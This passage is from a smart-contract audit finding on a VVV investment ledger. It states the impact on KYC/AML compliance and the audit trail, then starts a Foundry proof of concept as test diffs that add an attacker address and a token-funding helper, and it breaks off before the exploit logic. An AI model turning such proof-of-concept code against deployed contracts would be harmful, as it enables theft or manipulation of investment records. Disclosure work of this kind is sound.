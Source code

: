 ### Impact on protocol:

- Broken KYC/AML compliance
- Unreliable investment tracking
- Compromised audit trail

### PoC

1. Add `attacker` to the `VVVVCTestBase` in `test/vc/VVVVCTestBase.sol`

```diff
diff --git a/vvv-platform-smart-contracts/test/vc/VVVVCTestBase.sol b/vvv-platform-smart-contracts/test/vc/VVVVCTestBase.sol
index bd784ed..cca931a 100644
--- a/vvv-platform-smart-contracts/test/vc/VVVVCTestBase.sol
+++ b/vvv-platform-smart-contracts/test/vc/VVVVCTestBase.sol
@@ -48,6 +48,9 @@ abstract contract VVVVCTestBase is Test {
     ];
     address[] users = new address[](100); // 100 users
 
+    uint256 attackerKey = 123333;
+    address attacker = vm.addr(attackerKey);
+
     uint256 blockNumber;
     uint256 blockTimestamp;
```

2. Add the test code to the `test/vc/VVVVCInvestmentLedger.unit.t.sol`

```diff
diff --git a/vvv-platform-smart-contracts/test/vc/VVVVCInvestmentLedger.unit.t.sol b/vvv-platform-smart-contracts/test/vc/VVVVCInvestmentLedger.unit.t.sol
index f2fc825..ca2153f 100644
--- a/vvv-platform-smart-contracts/test/vc/VVVVCInvestmentLedger.unit.t.sol
+++ b/vvv-platform-smart-contracts/test/vc/VVVVCInvestmentLedger.unit.t.sol
@@ -6,12 +6,19 @@ import { MockERC20 } from "contracts/mock/MockERC20.sol";
 import { VVVVCInvestmentLedger } from "contracts/vc/VVVVCInvestmentLedger.sol";
 import { VVVAuthorizationRegistry } from "contracts/auth/VVVAuthorizationRegistry.sol";
 import { VVVAuthorizationRegistryChecker } from "contracts/auth/VVVAuthorizationRegistryChecker.sol";
+
 /**
  * @title VVVVCInvestmentLedger Unit Tests
  * @dev use "forge test --match-contract VVVVCInvestmentLedgerUnitTests" to run tests
  * @dev use "forge coverage --match-contract VVVVCInvestmentLedger" to run coverage
  */
 contract VVVVCInvestmentLedgerUnitTests is VVVVCTestBase {
+    uint256 constant INVEST_AMOUNT = 100e18;
+    uint256 constant ROUND_LIMIT = 1000e18;
+    uint256 constant USER_ALLOCATION = 1000e18;
+    uint256 constant DEFAULT_EXCHANGE_RATE = 1e6;
+    uint256 constant DEFAULT_FEE = 1000; // 10%
+
     /// @notice sets up project and payment tokens, and an instance of the investment ledger
     function setUp() public {
         vm.startPrank(deployer, deployer);
@@ -673,4 +680,75 @@ contract VVVVCInvestmentLedgerUnitTests is VVVVCTestBase {
         vm.expectRevert(VVVAuthorizationRegistryChecker.UnauthorizedCaller.selector);
         LedgerInstance.setInvestmentIsPaused(true);
     }
+
+    function setupUserForInvestment(address user, uint256 amount) internal {
+        vm.startPrank(user);
+        PaymentTokenInstance.mint(user, amount);
+        PaymentTokenInstance.approve(address(LedgerInstance), amount);
```